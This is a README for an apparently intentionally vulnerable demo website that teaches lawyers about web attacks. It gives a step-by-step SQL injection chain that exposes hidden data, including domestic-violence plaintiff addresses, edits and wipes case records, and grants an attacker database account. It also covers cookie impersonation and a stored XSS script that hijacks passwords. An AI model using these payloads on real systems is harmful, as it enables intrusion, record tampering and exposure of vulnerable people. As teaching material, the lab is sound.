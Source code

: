 # Hacking for Lawyers

## Running the Site
The website is in docker and uses the mattrayner lamp stack. Run the code below to launch the site 
```
docker-compose build
```
If you don't want to have a permanent mysql db outside the container then get rid of the second -v tag.
```
docker-compose up -d
```
There is a shell script in the app folder called create_sql.sh. This will drop the websitedata table if it exists and reinstall from a sql file in the mysql_tables folder in app.
```
docker exec -it hacking4lawyers_webapp_1 bash
cd app_backend
bash create_sql.sh 
```


# Topics Covered
## Case Search Page

### Case Search JavaScript Manipulation

Although the dropdown on the case search page only has the options of 5 or 10 results. 
You can use inspect on chrome to modify the value of the dropdown to be any number.

### Case Search SQL Injection Queries

```
Type this into the case number search box. It can also be typed into the url as a get parameter.

Step 1: Find the custom schema and return as the case number by continually adding 'test' as test until the columns match up.
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(schema_name)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.schemata WHERE '1'='1

Step 2: Get all the table names from that custom schema.
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(TABLE_NAME)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.TABLES WHERE table_schema ='websitedata

Step 3: Get all the column names from that table
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(COLUMN_NAME)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME ='casedata

Step 4: Now that we have all the column names for case data we can return different items. We notice the number of columns is also the number needed for the select statement so we assume they are using an *
We also notice a column that is not displayed anywhere called "Judge". We can replace case description with Judge to print out who the Judge will be.
fakecasenumber' UNION ALL SELECT Case_Number,Case_Type,Plaintiff_Name,Plaintiff_Address,Defendant_Name,Defendant_Address,Hearing_Date,CONCAT("Judge:", Judge) as Case_Description,'test' From casedata WHERE Case_Number = '12C934902

Step 5: We notice on domestic violence cases the plaintiff addres isn't shown. Using the same trick as before we can show the plaintiff address as case description
fakecasenumber' UNION ALL SELECT Case_Number,Case_Type,Plaintiff_Name,Plaintiff_Address,Defendant_Name,Defendant_Address,Hearing_Date,CONCAT("Plaintiffs Address: ",Plaintiff_Address) as Case_Description,Judge From casedata WHERE Case_Number = '12C934902

Step 6: We test to see if it will let us run multiple queries. If the permissions aren't set right we can update or delte out information.
//Resets the hearing date for a month earlier.
fakecasenumber'; UPDATE casedata SET Hearing_Date = '10/25/2019' WHERE Case_Number = '12C934910

Step 7: We can update the defendants name to something else
//Updates the defendants name in a criminal case
fakecasenumber'; UPDATE casedata SET Defendant_Name = 'John Smith' WHERE Case_Number = '12C934910

Step 8: We can wipe out all the data using truncate.
//Please don't do during a live demo!
fakecasenumber'; TRUNCATE casedata; SELECT * FROM casedata WHERE Case_Number = '12C9349010

Step 9: Finally we can create a new user so we can simply login ourselves to more directly control the mysql server.
fakecasenumber'; GRANT ALL PRIVILEGES ON *.* TO 'hackerman'@'localhost' IDENTIFIED BY 'password
```

## Blog Post Site

### Cookie Manipulation
When the user logs in a cookie is set with the users username. This can be modified to be any user, thus becoming that user.

### SQL Injection

This can be done through modifying the username in the cookie

Test if sql injection works
```
mstubenberg' OR '1' = '1
```
Replace password for user
```
fakeuser' UNION ALL SELECT "test" as test,password FROM users WHERE username = 'attorney1
```
Get all the users information using ID
```
fakeuser' UNION ALL SELECT username,password FROM users WHERE ID = '2
```

### Bypass JavaScript input validation

On the user registration page, when the user clicks "Create," an error
message will appear if the username field is empty, if the password is
empty, or if the e-mail address is not a valid e-mail address.

If the user uses "Inspect" to look at the "Create" button, he or she
will see that there is an "event" attached to the button, and the
button has the id `create`.  The user can also see from the page
source that the site uses JQuery.

To get around client-side input validation, enter the following into
the JavaScript Console.

```
$("#create").off();
```

Then click the "Create" button.

### JavaScript Injection

You can add javascript directly into the text box for a post which is
then executed by the users browser.

Testing if it's possible
```
<script>
console.log("It worked!");
</script>
```

Script to change the password of the user and then log them out unless they are the user "hackerman"
Note: This one should be dropped as an example because it then prohibits any of the audience from playing with the site.
```
    <script>
       setTimeout(function(){
           console.log("It worked");
           if($("#accountinfousername").text() != "hackerman"){
                if($("#logoutbutton").length > 0 && $("#resetpasswordsuccess").length == 0){
                    $("#resetpassword").val("pa$$word");
                    $("#resetpasswordbutton").click();
                }else if($("#resetpasswordsuccess").length > 0){
                    $("#logoutbutton").click();
                }else{
                    console.log("Waiting for user to login");
                }
            }

        },1000); 
    </script>
```

## To Do:
1. I think the blog site should have additional options if the user is "admin". Then using the cookie trick you can log in as admin and delete posts.
2. I think real world examples of each of these would be useful. Show an example then show a news clip of a company that actually had this vulnerability.
3. I'd like to demonstrate a man in the middle attack. Maybe brining our own wireless network? 
4. Showing a password cracker live in the background somehow that we start at the beginning and check how many we've cracked at the end would be cool.
